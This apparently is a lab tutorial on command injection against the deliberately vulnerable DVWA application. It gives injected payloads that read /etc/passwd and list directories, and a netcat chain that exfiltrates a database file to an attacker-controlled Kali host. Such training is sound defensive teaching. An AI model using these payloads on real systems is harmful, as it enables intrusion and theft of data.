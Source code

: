 Command Injection Attacks
=========================

Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell.

#. Configure DVWA Security (This makes the site vulnerable to allow attacks)
     - In the Left Menus Select DVWA Security
     - Change Impossible to **LOW** and Click Submit

     .. image:: ../images/Attacks/Picture6.png
#. Performing ‘Command-Injection’ Attack (view /etc/passwd)
     in the data field type the command

     .. code-block::

       8.8.8.8 | cat /etc/passwd
      
     .. image:: ../images/Attacks/Picture7.png
#. Performing ‘Command-Injection’ Attack (view local directory files)
     in the data field type the command

     .. code-block::

       | ls

     .. image:: ../images/Attacks/Picture8.png
#. Performing ‘Command-Injection’ Attack (data exfiltration using NetCat)
     in Kali Linux Web Shell run the following commands to setup the receiving end of the Data Exfiltration

     .. code-block::

       cd /home/kali
       ls
       rm -rf Sample-Db.zip
       ls
       nc -l -p 8888 > Sample-DB.zip

     .. image:: ../images/Attacks/Picture9.png
#. Performing ‘Command-Injection’ Attack (data exfiltration using NetCat)
     in the DVWA command injection area type the command

     .. code-block::

       | nc -w 3 10.1.50.8 8888 < Sample-DB.zip

     .. image:: ../images/Attacks/Picture10.png
#. Performing ‘Command-Injection’ Attack (data exfiltration using NetCat)
     in the Kali Linux Web Shell the previous command should be completed and a new command line will be available verify size of file exfiltrated using command


     .. code-block::

       ls -AlFh

     .. image:: ../images/Attacks/Picture11.png